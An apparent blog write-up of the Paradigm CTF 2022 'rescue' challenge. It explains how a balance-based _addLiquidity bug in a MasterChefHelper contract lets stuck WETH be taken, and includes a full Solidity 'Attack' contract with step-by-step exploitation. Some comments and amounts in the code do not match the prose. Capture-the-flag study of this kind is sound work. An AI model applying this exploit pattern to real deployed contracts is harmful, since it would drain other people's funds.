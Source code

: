 ```yaml
---
layout: post
title:  "Paradigm CTF Rescue Challeng Explained"
date:   2022-08-28 11:57:16 +0800
---
```


Two weeks ago I had the opportunity to participate in Paradigm CTF 2022, a well known event in the Web3 security space. This was my first "live" CTF I had ever done and I was happy with how I went overall, but I could have done better when it came to familiarity with tools and time management. The difficulty of the challenges were definitely an eye opener into how much I still have to learn as a security researcher, there were many I missed that I plan to solve (and make writeups for) in the future.

One of the challenges that I solved was named "rescue", where we have to recover 10 wrapped Ether had been accidentally sent to a newly deployed `MasterChefHelper` contract. This contract was made to easily exchange tokens for LP tokens for a given SushiSwap liquidity pool. You pass as arguments the pool you want to provide liquidity to, the token contract, amount of tokens that you want to exchange, as well as an optional minimum out of LP tokens. Upon calling the function `swapTokenForPoolToken` your input tokens are converted into the two tokens supported by the LP and then liquidity is provided, returning LP tokens to the caller.

{% highlight solidity %}
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
        // @note Get the liquidity pool (token) address for the given pool ID
        (address lpToken,,,) = masterchef.poolInfo(poolId);
        // @note Get the two tokens for the given liquidity pool (token)
        address tokenOut0 = UniswapV2PairLike(lpToken).token0();
        address tokenOut1 = UniswapV2PairLike(lpToken).token1();

        // @note Approvals for all three tokens, nothing special
        ERC20Like(tokenIn).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut1).approve(address(router), type(uint256).max);

        // @note Transfer `amountIn` of `tokenIn` to this contract
        ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

        // @note Swap half of the `tokenIn` tokens for `tokenOut0`
        _swap(tokenIn, tokenOut0, amountIn / 2);
        // @note Swap half of the `tokenIn` tokens for `tokenOut0`
        _swap(tokenIn, tokenOut1, amountIn / 2);

        // @note Add liquidity and send LP tokens to `msg.sender'
        _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
}
{% endhighlight %}

If we look at `_addLiquidity()` we see that the amount of tokens to send to `router.addLiquidity()` is determined by the balance of each token rather than a fixed amount determined by the users input `amountIn` from `swapTokenForPoolToken()`. Since the input tokens are split and swapped equally between an LPs `token0` and `token1`, if the LP were to contain WETH there would be an imbalance. Let's say that 1WETH = 1,000USDT and we call `_addLiquidity()` to exchange 1WETH and 1,000USDT for LP tokens. Since their value is the same, all tokens are used and LP tokens are returned. In our case the value will not be the same, because the amount is retrieved from the balance. So if we wanted to exchange 1WETH and 1,000USDT for LP tokens, the balance check would cause the call to `router.addLiquidity()` to pass 11WETH and 1,000USDT. It would be 11WETH because the amount is determined by `balanceOf()` and since we accidentally sent 10WETH to this contract, we have the 1WETH plus the 10WETH.

{% highlight solidity %}
function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
        (,, uint256 amountOut) = router.addLiquidity(
                token0,                                     // @note token0
                token1,                                     // @note token1
                ERC20Like(token0).balanceOf(address(this)), // @note amount0Desired
                ERC20Like(token1).balanceOf(address(this)), // @note amount1Desired
                0,                                          // @note amount0Min
                0,                                          // @note amount1Min
                msg.sender,                                 // @note to
                block.timestamp                             // @note deadline
        );
        // @note Ensure that enough LP tokens were created
        require(amountOut >= minAmountOut);
}
{% endhighlight %}

The `router.addLiquidity()` function returns unused amounts, so the 10WETH would remain in the `MasterChefHelper` contract. If we are able to make the 10WETH used by `router.addLiquidity()`, they would be converted into LP tokens and sent to the caller which would be us. We can do this by also sending 10WETH worth of the other token in the pool. Let's go back to our WETH and USDT example, where if we also sent 10WETH worth of USDT (10000) then it would be 11WETH and 11000USDT. The value of these amounts are equal so they will all be consumed and converted into LP tokens which are sent back to us.

To save any errors when developing the solution I assumed that my input token couldn't be the same as any of the tokens in my target LP, so I chose to exchange USDC tokens for USDT-WETH LP tokens. I also made sure to transfer a little more than 10WETH worth of USDT to the `MasterChefHelper` contract because I was concerned that if I used the exact amount there may be a little amount of dust left, but the challenge requires the balance to be exactly zero. In summary here are the steps needed to complete the challenge:

1. Swap 10.1 WETH for USDT
2. Swap 1 WETH for USDC
3. Transfer all USDT (10.1 WETH worth) to the `MasterChefHelper` contract
4. Call `swapTokenForPoolToken` and provide all the USDC balance
5. During the call to `router.addLiquidity()` the 10.1WETH worth of USDT matches up with the 10WETH and it is converted into LP tokens which are sent to us

My exploit contract is shown below:

{% highlight solidity %}
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

interface IWETH9 is IERC20 {
    function deposit() external payable;
}

interface UniswapV2RouterLike {
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);

    function addLiquidity(
        address tokenA,
        address tokenB,
        uint amountADesired,
        uint amountBDesired,
        uint amountAMin,
        uint amountBMin,
        address to,
        uint deadline
    ) external returns (uint amountA, uint amountB, uint liquidity);
}

interface IMasterChefHelper {
    function swapTokenForPoolToken(
        uint256 poolId,
        address tokenIn,
        uint256 amountIn,
        uint256 minAmountOut
    ) external;
}

contract Attack {

    // SafeERC20 is needed for USDT
    using SafeERC20 for IERC20;

    // Wrapped Ether contract
    IWETH9 constant weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    // USDT contract
    IERC20 constant usdt = IERC20(0xdAC17F958D2ee523a2206206994597C13D831ec7);

    // USDC contract
    IERC20 constant usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

    // Sushiswap router
    UniswapV2RouterLike constant router = UniswapV2RouterLike(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);

    // Masterchef helper
    IMasterChefHelper constant mshelper = IMasterChefHelper(0x81d8AD854367fb9D66c0BA37D9cA4269a7631A9C);

    constructor() payable {
        // Need enough Ether for attack
        require(msg.value == 50 ether, "Need 50 Ether");

        // Get 50 Wrapped Ether
        weth.deposit{value: 50 ether}();

        // Exchange 15 WETH for USDT
        address[] memory pathc = new address[](2);
        pathc[0] = address(weth);
        pathc[1] = address(usdc);

        weth.approve(address(router), 1 ether);

        router.swapExactTokensForTokens(
            1 ether,
            0,
            pathc,
            address(this),
            block.timestamp
        );

        // Exchange 15 WETH for USDT
        address[] memory patht = new address[](2);
        patht[0] = address(weth);
        patht[1] = address(usdt);

        weth.approve(address(router), 15 ether);

        router.swapExactTokensForTokens(
            15 ether,
            0,
            patht,
            address(this),
            block.timestamp
        );

        // Get USDT balance
        uint256 usdt_balance = usdt.balanceOf(address(this));

        // Transfer USDT balance (15 Ether worth) to MasterChefHelper
        usdt.safeTransfer(address(mshelper), usdt_balance);

        // Get USDC balance
        uint256 usdc_balance = usdc.balanceOf(address(this));

        // Approve a transfer of USDC to MasterChefHelper
        usdc.approve(address(mshelper), usdc_balance);

        // Attempt a swap
        mshelper.swapTokenForPoolToken(
            0,
            address(usdc),
            usdc_balance,
            0
        );
    }
}
{% endhighlight %}

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
